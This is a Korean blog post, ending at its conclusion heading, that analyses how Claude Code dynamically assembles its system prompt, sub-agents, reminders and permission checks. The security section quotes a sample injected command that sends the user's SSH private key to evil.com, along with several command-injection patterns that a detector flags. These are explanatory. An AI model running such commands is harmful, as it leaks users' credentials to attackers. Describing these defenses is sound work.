







> "알아서 해주는"는 경험 뒤에 숨겨진 정교한 프롬프트 엔지니어링의 세계



---

Claude Code를 처음 사용해본 개발자들은 종종 "어떻게 이렇게 잘 맥락을 이해하지?"라는 의문을 품는다. 단순한 코딩 어시스턴트가 아닌, 마치 프로젝트를 오래 함께한 동료처럼 행동하는 Claude Code. 그 비밀은 **40개 이상의 프롬프트 조각이 동적으로 조합되는 정교한 시스템 아키텍처**에 있다.

이 글에서는 Claude Code가 CLAUDE.md와 코드베이스를 어떻게 활용하여 LLM에게 명령을 내리는지, 그리고 시스템 프롬프트가 어떻게 실시간으로 생성되는지를 심층 분석한다.

이 글은 LiteLLM 프록시를 통한 API 모니터링 분석과 공개된 시스템 프롬프트 자료를 기반으로 작성되었으며 참고한 자료들은 글의 말미에 정리해 두었다.

---

## 목차

1. [전체 아키텍처 흐름](#1-전체-아키텍처-흐름)
2. [시스템 프롬프트 동적 구성](#2-시스템-프롬프트-동적-구성)
3. [CLAUDE.md 활용 메커니즘](#3-claudemd-활용-메커니즘)
4. [System Reminder 주입 패턴](#4-system-reminder-주입-패턴)
5. [Sub-Agent 아키텍처](#5-sub-agent-아키텍처)
6. [보안 및 권한 검증 흐름](#6-보안-및-권한-검증-흐름)
7. [컨텍스트 엔지니어링 전략](#7-컨텍스트-엔지니어링-전략)
8. [핵심 인사이트](#핵심-인사이트)

---

## 1. 전체 아키텍처 흐름

Claude Code에 명령을 입력하면 무슨 일이 일어날까? 단순히 사용자의 메시지가 API로 전송되는 것이 아니다. 그 사이에는 **정교한 컨텍스트 수집, 프롬프트 빌드, 사전 처리** 과정이 존재한다.



### 흐름 설명

사용자가 터미널에 명령을 입력하는 순간, Claude Code는 **4단계의 정교한 파이프라인**을 가동한다.

**첫 번째 단계: 컨텍스트 수집**

Claude Code는 먼저 현재 작업 환경에 대한 모든 정보를 수집한다. 프로젝트 루트의 `CLAUDE.md` 파일을 읽어 프로젝트 구조, 빌드 명령어, 코딩 규칙을 파악한다. 동시에 Git 상태(현재 브랜치, 최근 커밋, 변경된 파일)와 운영체제, 설치된 도구 등의 환경 정보도 수집한다. 이 모든 정보가 Claude가 "프로젝트를 이해하고 있는 것처럼" 행동하게 만드는 기반이다.

**두 번째 단계: 프롬프트 빌드**

수집된 정보를 바탕으로 시스템 프롬프트가 동적으로 조립된다. 핵심은 **조건부 구성**이다. 모든 프롬프트 조각이 항상 포함되는 것이 아니라, 현재 상황에 필요한 것만 선택적으로 포함된다. 예를 들어, Plan 모드가 활성화되어 있다면 Plan 관련 프롬프트가 추가되고, MCP 서버가 설정되어 있다면 MCP CLI 프롬프트가 포함된다.

**세 번째 단계: 요청 사전처리**

API 요청을 보내기 전, Claude Code는 몇 가지 "사전 작업"을 수행한다. 현재 대화가 새로운 주제인지 감지하고, 대화 제목을 생성하며, 긴 대화의 경우 이전 내용을 요약한다. 이 과정에서도 별도의 LLM 호출이 발생하며, 각각 특화된 프롬프트가 사용된다.

**네 번째 단계: 응답 처리**

Claude의 응답이 도구 호출을 포함하면, 해당 도구가 실행되고 그 결과에 **시스템 리마인더가 주입**된다. 이 리마인더는 Claude가 원래 목표에서 벗어나지 않도록 하는 "나침반" 역할을 한다. 특히 Bash 명령어의 경우, 실행 전에 명령어 주입 공격을 탐지하는 전용 Agent가 검사를 수행한다.

---

## 2. 시스템 프롬프트 동적 구성

Claude Code의 시스템 프롬프트는 단일 문자열이 아니다. **정적 컴포넌트, 동적 컴포넌트, 조건부 컴포넌트**가 레고 블록처럼 조립되어 최종 프롬프트를 형성한다.



### 흐름 설명

**정적 컴포넌트: 변하지 않는 기반**

모든 Claude Code 세션에서 공통으로 사용되는 프롬프트다. 2,601개의 토큰으로 이루어진 Core 시스템 프롬프트는 Claude Code의 정체성, 기본 행동 규칙, 응답 스타일을 정의한다. "당신은 Claude Code입니다. Anthropic의 공식 CLI 도구입니다..."로 시작하는 이 프롬프트는 Claude가 코딩 어시스턴트로서 어떻게 행동해야 하는지의 근간을 형성한다.

보안 규칙도 정적 컴포넌트에 포함된다. 악성 코드 작성 금지, URL 생성 제한, 민감한 작업에 대한 가이드라인 등이 여기에 해당한다.

**동적 컴포넌트: 실시간으로 변하는 맥락**

여기가 Claude Code의 진정한 "마법"이 일어나는 곳이다. `CLAUDE.md` 파일의 내용은 프로젝트마다 다르다. React 프로젝트라면 컴포넌트 구조와 스타일 가이드가, Python 백엔드 프로젝트라면 API 엔드포인트와 테스트 방법이 담겨 있을 것이다. 이 정보가 시스템 프롬프트에 포함되면서, Claude는 "이 프로젝트를 아는 것처럼" 행동할 수 있다.

Git 상태 정보도 동적으로 주입된다. 현재 브랜치가 무엇인지, 최근 커밋이 무엇인지, 어떤 파일이 변경되었는지를 Claude가 알고 있기 때문에, "main 브랜치에 PR을 만들어줘"라는 요청을 자연스럽게 처리할 수 있다.

**조건부 컴포넌트: 필요할 때만 활성화**

Learning Mode, Plan Mode, MCP CLI 등은 사용자가 특정 모드를 활성화했을 때만 포함된다. 이는 **토큰 효율성**을 위한 설계다. 사용하지 않는 기능에 대한 설명으로 귀중한 컨텍스트 윈도우를 낭비하지 않는다.

**도구 설명: 놀라울 정도로 상세한 가이드**

17개의 빌트인 도구 각각에 대한 설명이 시스템 프롬프트에 포함된다. 특히 `TodoWrite`(2,167 토큰)와 `Bash`(1,074 토큰) 도구는 매우 상세한 사용 가이드를 포함한다. 이 도구 설명들만 합쳐도 8,000 토큰이 넘는다.

최종적으로 조립된 시스템 프롬프트는 **10,000 토큰 이상**에 달할 수 있다. 그리고 이 모든 것이 매 세션마다, 상황에 맞게 동적으로 재구성된다.

---

## 3. CLAUDE.md 활용 메커니즘

`CLAUDE.md`는 Claude Code 생태계에서 특별한 위치를 차지한다. 이 파일은 프로젝트의 "두뇌"로, Claude가 코드베이스를 이해하는 데 필요한 모든 맥락을 제공한다.



### 흐름 설명

**초기 설정: CLAUDE.md의 탄생**

사용자가 `/init` 명령을 실행하거나 새 프로젝트에서 처음 Claude Code를 시작하면, 전용 Generator Agent가 활성화된다. 이 Agent는 384 토큰의 특화된 시스템 프롬프트를 가지고 있으며, 오직 하나의 목표만을 수행한다: **코드베이스를 분석하고 CLAUDE.md를 생성하는 것**.

Generator는 프로젝트의 파일 구조를 탐색하고, `package.json`, `pyproject.toml`, `Makefile` 등의 설정 파일을 읽어 빌드 및 테스트 명령어를 파악한다. 코드의 아키텍처 패턴을 분석하고, 주요 디렉토리와 파일의 역할을 요약한다. 이 모든 정보가 구조화된 형태로 `CLAUDE.md`에 저장된다.

**세션 실행: 컨텍스트의 힘**

이후 모든 Claude Code 세션에서, 이 `CLAUDE.md` 파일은 시스템 프롬프트의 일부로 자동 포함된다. 사용자가 "테스트 실행해줘"라고 하면, Claude는 CLAUDE.md에서 읽은 테스트 명령어(`npm test`, `pytest` 등)를 사용한다. "새 컴포넌트 만들어줘"라고 하면, CLAUDE.md에 명시된 프로젝트의 스타일 가이드와 디렉토리 구조를 따른다.

이것이 Claude Code가 **프로젝트별로 다르게 행동**할 수 있는 비밀이다. 같은 "테스트 실행해줘"라는 명령도, React 프로젝트에서는 `npm test`를, Django 프로젝트에서는 `python manage.py test`를 실행하는 것은 CLAUDE.md 덕분이다.

**CLAUDE.md의 구조 예시**

```yaml
# 프로젝트 개요
이 프로젝트는 React 기반의 대시보드 애플리케이션입니다.

# 프로젝트 구조
- src/components: 재사용 가능한 UI 컴포넌트
- src/pages: 페이지 레벨 컴포넌트
- src/hooks: 커스텀 React 훅
- src/services: API 통신 로직

# 개발 명령어
- 개발 서버: npm run dev
- 빌드: npm run build
- 테스트: npm test -- --watch
- 린트: npm run lint

# 코딩 규칙
- TypeScript strict 모드 사용
- 컴포넌트는 함수형으로 작성
- 스타일은 Tailwind CSS 사용
- 상태 관리는 Zustand 사용

# 중요 사항
- API 키는 .env.local에 저장
- PR 전 반드시 lint 통과 필요
```

---

## 4. System Reminder 주입 패턴

Claude Code의 가장 독특한 특징 중 하나는 `<system-reminder>` 태그의 광범위한 사용이다. 이 태그는 **drift 방지의 핵심 메커니즘**으로, 긴 대화에서도 Claude가 원래 목표를 잃지 않도록한다.



### 흐름 설명

**왜 System Reminder가 필요한가?**

LLM의 근본적인 한계 중 하나는 **컨텍스트 길이가 늘어날수록 초기 지침을 "잊어버리는"** 경향이다. 10번의 도구 호출과 긴 코드 출력이 이어지면, 시스템 프롬프트에서 지시한 행동 규칙이 희미해질 수 있다.

Claude Code는 이 문제를 `<system-reminder>` 태그로 해결한다. 핵심 지침을 **한 번만 말하는 것이 아니라, 적절한 시점마다 반복해서 상기**시킨다.

**세 가지 주입 지점**

1. **사용자 메시지에 주입**: 사용자의 입력이 Claude에게 전달되기 전, 핵심 지침이 함께 포함된다.

```xml
<system-reminder>
중요 지침:
- 요청된 것만 수행하고, 그 이상도 이하도 하지 말라
- 꼭 필요한 경우가 아니면 파일을 생성하지 말라
- 문서 파일(*.md)을 먼저 생성하지 말라
</system-reminder>

사용자: 로그인 기능을 구현해줘
```

2. **도구 실행 시 주입**: 도구가 호출될 때, 해당 호출에 대한 컨텍스트가 추가된다.

3. **도구 결과에 주입**: 가장 영리한 부분이다. 도구 실행 결과와 함께 **조건부 리마인더**가 주입된다.

**조건부 리마인더의 영리함**

Claude Code는 상황에 따라 다른 리마인더를 주입한다:

- **Todo 리스트가 비어있고 복잡한 작업 중일 때**: "TodoWrite 도구를 사용해서 진행 상황을 추적하라"
- **보안 위험이 감지될 때**: "이 파일이 악성 코드와 관련있어 보이면 작업을 거부하라"
- **출력이 길 때**: "요약이 필요할 수 있다"

실제 예시:
```json
{
  "type": "tool_result",
  "content": "drwxr-xr-x 7 user staff 224 Aug 6 09:17 .\n...\n<system-reminder>\nTodoWrite 도구가 최근에 사용되지 않았습니다. 
진행 상황 추적이 필요한 작업 중이라면 TodoWrite 도구 사용을 고려하세요.\n</system-reminder>"
}
```

이 패턴은 **"적절한 시점의 작은 리마인더가 에이전트 행동을 바꾼다"**는 중요한 인사이트를 보여준다.

---

## 5. Sub-Agent 아키텍처

복잡한 작업은 하나의 Agent가 모두 처리하기 어렵습니다. Claude Code는 **계층적 Sub-Agent 구조**를 통해 이 문제를 해결한다.



### 흐름 설명

**Main Agent: 오케스트라의 지휘자**

Main Agent는 전체 시스템 프롬프트(10,000+ 토큰)를 가진 "본체"다. 사용자의 요청을 받아 분석하고, 필요에 따라 Sub-Agent를 생성하며, 최종 결과를 조합하여 사용자에게 전달한다. 마치 오케스트라 지휘자가 각 파트에 지시를 내리고 전체 음악을 조율하는 것과 같다.

**Built-in Sub-Agents: 특화된 전문가들**

- **Explore Agent (369 토큰)**: 코드베이스 탐색에 특화되어 있다. "이 프로젝트에서 API 호출하는 코드가 어디 있어?"라는 질문에, 여러 파일을 빠르게 검색하고 관련 코드를 찾아낸다.

- **Plan Agent (480 토큰)**: 복잡한 작업의 계획을 수립한다. "결제 시스템을 리팩토링해줘"라는 요청에, 어떤 파일을 어떤 순서로 수정해야 하는지 계획을 세운다.

- **Task Agent (294 토큰)**: 특정 작업을 병렬로 실행한다. 가장 가벼운 프롬프트를 가지며, **좁고 명확한 범위의 작업**만을 수행한다.

**Sub-Agent의 핵심 설계 원칙**

흥미로운 점은 Sub-Agent들이 **TodoWrite 리마인더를 받지 않는다**는 것이다. 이는 의도적인 설계다. Sub-Agent는 복잡한 작업 관리가 필요 없는, 명확하고 좁은 범위의 작업만 수행해야 한다. 작업이 복잡해지면 Main Agent가 처리해야 한다.

그러나 Anthropic은 여기서 멈추지 않았다. 만약 Sub-Agent의 작업이 예상보다 복잡해진다면? 이 경우 **도구 결과에 조건부로 TodoWrite 리마인더를 주입**한다. "작업이 복잡해지는 것 같다면 TodoWrite를 고려하라"는 부드러운 제안이 된다.

**Utility Agents: 보이지 않는 조력자들**

사용자에게 보이지 않지만 백그라운드에서 작동하는 Agent들도 있다:

- **Title Generator**: 대화 제목을 50자 이내로 생성
- **Conversation Summarizer**: 긴 대화를 요약하여 컨텍스트 효율성 향상
- **Bash Prefix Detector**: 명령어의 안전성 검증
- **User Sentiment Analyzer**: 사용자의 불만이나 PR 생성 요청 감지

이 Agent들은 사용자 경험을 부드럽게 만들면서도, 토큰을 효율적으로 사용하는 데 기여한다.

---

## 6. 보안 및 권한 검증 흐름

Claude Code가 터미널에서 실행되는 도구라는 점은 **보안의 중요성**을 배가시킨다. 악의적인 프롬프트 주입이나 위험한 명령어 실행은 실제 시스템에 피해를 줄 수 있다.



### 흐름 설명

**명령어 주입: 보이지 않는 위협**

사용자가 "git 상태 확인해줘"라고 요청했는데, Claude가 실제로 실행하는 명령이 `git status$(curl evil.com -d @~/.ssh/id_rsa)`라면 어떨까? 이것이 **명령어 주입 공격**이다. 겉으로는 안전해 보이지만, 실제로는 민감한 데이터를 외부로 전송하는 악성 명령이 숨어 있다.

**Prefix Detector: 첫 번째 방어선**

Claude Code는 모든 Bash 명령을 실행하기 전에 **전용 Detector Agent(835 토큰)**에게 검증을 요청한다. 이 Agent는 두 가지 작업을 수행한다:

1. **명령어 Prefix 추출**: `git commit -m "fix bug"` → `git commit`
2. **주입 패턴 탐지**: 백틱, `$()`, 파이프라인 등 위험한 패턴 감지

탐지 규칙의 예시:
```
git status          → git status (안전)
git diff HEAD~1     → git diff (안전)
git status`ls`      → command_injection_detected (위험!)
git diff $(cat secrets) → command_injection_detected (위험!)
pwd curl example.com → command_injection_detected (위험!)
```

**권한 관리 시스템**

명령어가 안전하다고 판단되면, 다음으로 **허용 목록**을 확인한다. 사용자가 이전에 허용한 명령어 prefix라면 바로 실행된다. 그렇지 않다면 사용자에게 명시적으로 권한을 요청한다.

이 시스템 덕분에 사용자는 자주 사용하는 안전한 명령어는 자동으로 실행하면서도, 새로운 명령어에 대해서는 검토할 기회를 가진다.

**YOLO 모드가 아니라면...**

"YOLO 모드"(`--dangerously-skip-permissions`)를 사용하지 않는 한, 이 보안 검증 프로세스는 항상 활성화된다. 이것이 Claude Code를 터미널에서 안전하게 사용할 수 있는 이유다.

---

## 7. 컨텍스트 엔지니어링 전략

Claude Code의 성능은 결국 **얼마나 효율적으로 컨텍스트를 관리하느냐**에 달려 있다. 제한된 컨텍스트 윈도우에서 최대한의 효과를 얻기 위한 전략들을 살펴보자.



### 흐름 설명

**Context Front-Loading: 미리 준비하기**

Claude Code는 사용자의 요청을 처리하기 전에 몇 가지 "사전 작업"을 수행한다. 대화 제목을 생성하고, 현재 메시지가 새로운 주제인지 판단하며, 필요하다면 이전 대화를 요약한다.

이 과정에서 **별도의 LLM 호출**이 발생한다. 겉보기에는 비효율적으로 보일 수 있지만, 이렇게 준비된 컨텍스트가 이후의 대화 품질을 크게 향상시킨다. "아, 이전에 결제 시스템 리팩토링에 대해 이야기했군"이라고 Claude가 자연스럽게 이어갈 수 있는 이유다.

**시스템 리마인더: 끊임없는 상기**

앞서 설명했듯이, `<system-reminder>` 태그는 대화 전반에 걸쳐 주입된다. 이는 **"한 번 말하면 끝"이 아니라 "필요할 때마다 반복"**하는 전략이다. 인간 팀원에게도 중요한 사항은 여러 번 상기시키듯이, AI 에이전트에게도 마찬가지다.

**동적 컨텍스트 조절**

작업의 복잡도에 따라 컨텍스트가 동적으로 조절된다:

- **단순한 작업**: 최소한의 프롬프트만 사용. 토큰 낭비 방지.
- **중간 복잡도**: TodoWrite 사용을 제안하여 진행 상황 추적.
- **높은 복잡도**: Sub-Agent를 생성하여 작업 분할.

**캐시 최적화: 토큰 비용 절감**

Anthropic API의 `ephemeral cache` 기능을 활용한다. 시스템 프롬프트, CLAUDE.md 내용, 도구 설명 등 **반복적으로 사용되는 컨텐츠**에 캐시 제어를 적용하여, 매 요청마다 동일한 토큰을 다시 처리하지 않는다.

```json
{
  "text": "You are Claude Code...",
  "type": "text",
  "cache_control": {
    "type": "ephemeral"
  }
}
```

이 최적화는 비용 절감뿐 아니라 **응답 속도 향상**에도 기여한다.

---

## 핵심 인사이트

Claude Code를 분석하면서 발견한 핵심 인사이트를 정리한다. 이 교훈들은 AI 에이전트를 개발하는 모든 분들에게 유용할 것이다.

### 1. 동적 프롬프트 구성의 힘

> **"하나의 만능 프롬프트가 아니라, 상황에 맞게 조립되는 프롬프트 시스템이 답이다"**

Claude Code는 단일 프롬프트를 사용하지 않는다. 대신 **40개 이상의 프롬프트 조각이 조건에 따라 동적으로 조합**된다. CLAUDE.md를 통한 프로젝트별 컨텍스트 주입, 환경과 Git 상태에 따른 실시간 업데이트, 활성화된 모드에 따른 선택적 프롬프트 포함... 이 모든 것이 "상황을 이해하는 AI"라는 경험을 만들어낸다.

**실무 적용**: 자신만의 AI 에이전트를 만들 때, 하나의 거대한 프롬프트를 작성하려 하지 말라. 대신 모듈화된 프롬프트 조각들을 만들고, 상황에 따라 필요한 것만 조합하는 시스템을 설계하라.

### 2. 시스템 리마인더의 마법

> **"중요한 것은 한 번 말하는 것이 아니라, 적절한 시점에 반복하는 것이다"**

`<system-reminder>` 태그는 Claude Code의 "비밀 무기"다. 사용자 메시지, 도구 호출, 도구 결과 등 **모든 단계에서 핵심 지침이 반복**된다. 이를 통해 긴 대화에서도 drift를 방지하고 목표에 집중할 수 있다.

**실무 적용**: 에이전트가 긴 작업을 수행할 때, 중요한 지침을 시작점에만 두지 말라. 중간중간 적절한 시점에 리마인더를 주입하라. 특히 도구 실행 결과에 조건부 리마인더를 추가하는 패턴이 효과적이다.

### 3. 계층적 에이전트 구조

> **"하나의 만능 에이전트가 아니라, 역할이 분명한 여러 에이전트의 협업이 답이다"**

Claude Code는 **Main Agent, Sub-Agents, Utility Agents**로 구성된 계층 구조를 가진다. 각 에이전트는 명확한 역할과 최적화된 프롬프트를 가지고 있다. Main Agent는 전체 조율, Explore Agent는 탐색, Plan Agent는 계획, Task Agent는 실행에 집중한다.

**실무 적용**: 복잡한 작업을 단일 에이전트로 해결하려 하지 말라. 역할별로 에이전트를 분리하고, 각 에이전트에 최적화된 (그리고 최소화된) 프롬프트를 제공하라. 더 적은 컨텍스트로 더 집중된 작업을 수행할 수 있다.

### 4. 보안 중심 설계

> **"보안은 나중에 추가하는 것이 아니라, 처음부터 아키텍처에 내장되어야 한다"**

명령어 주입 탐지를 위한 전용 Agent, 명령어 prefix 추출 및 검증, 사용자 권한 승인 프로세스... Claude Code는 **보안을 핵심 설계 원칙**으로 삼았다. 이 모든 것이 사용자가 터미널에서 AI를 "안심하고" 사용할 수 있게 한다.

**실무 적용**: 특히 코드 실행이나 파일 시스템 접근이 포함된 에이전트를 개발할 때, 보안 검증 단계를 필수로 포함하라. "일단 동작하게 만들고 나중에 보안 추가"는 위험한 접근이다.

### 5. 효율적인 컨텍스트 관리

> **"제한된 컨텍스트 윈도우에서 최대의 효과를 얻는 것이 엔지니어링의 핵심이다"**

Context front-loading, ephemeral cache, 조건부 컨텍스트 주입, 대화 요약... Claude Code는 **토큰 하나하나를 소중히** 여긴다. 불필요한 정보는 제거하고, 반복되는 정보는 캐시하며, 필요한 정보만 적시에 주입한다.

**실무 적용**: 컨텍스트 윈도우를 무한하다고 생각하지 말라. 프롬프트의 각 부분이 정말 필요한지 검토하고, 캐시 전략을 수립하며, 동적 컨텍스트 조절을 구현하라.

---

## 결론: Claude Code가 주는 교훈

